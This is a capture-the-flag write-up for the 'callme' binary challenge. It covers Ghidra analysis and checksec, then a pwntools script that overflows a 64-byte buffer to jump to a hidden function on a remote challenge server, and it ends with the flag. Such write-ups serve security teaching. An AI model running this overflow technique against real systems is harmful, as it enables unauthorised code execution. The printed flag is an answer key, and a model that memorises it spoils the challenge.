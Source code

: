 # callme

> Let's see if you can get the flag.

Download the attachment [here](file/callme)

## How to Solve

First we use `Ghidra` to do static analysis, and look the main function

![POC 1](images/POC%201.jpg)

Likely there are nothing to do, but we see some interesting function

![POC 2](images/POC%202.jpg)

That's mean we need to jump to `callme` function and read the flag, so at the main function we just need filled the `local_54` variable which is has 64 bytes

And we do the checksec

![POC 3](images/POC%203.jpg)

Because PIE is not enable it's mean the function address is not gonna change every process

And find the function address at `Ghidra`

![POC 4](images/POC%204.jpg)

We got the address is `0x0804875e`

This the solver I use

```
from pwn import *

exe = './callme'
host, port = '139.144.184.150', 3333
elf = context.binary = ELF(exe, checksec=True)
rop = ROP(exe)
context.log_level = 'info'

# io = process(exe)
io = remote(host, port)

offset = b'A'*64

payload = flat([
    offset,
    0x0804875e,
    rop.ret.address,
    elf.sym['callme']
])

io.sendline(payload)
io.interactive()
```

![POC 5](images/POC%205.jpg)

And we got flag

```
BDSEC{reverse_engineering_shatters_the_chains_of_ignorance}
```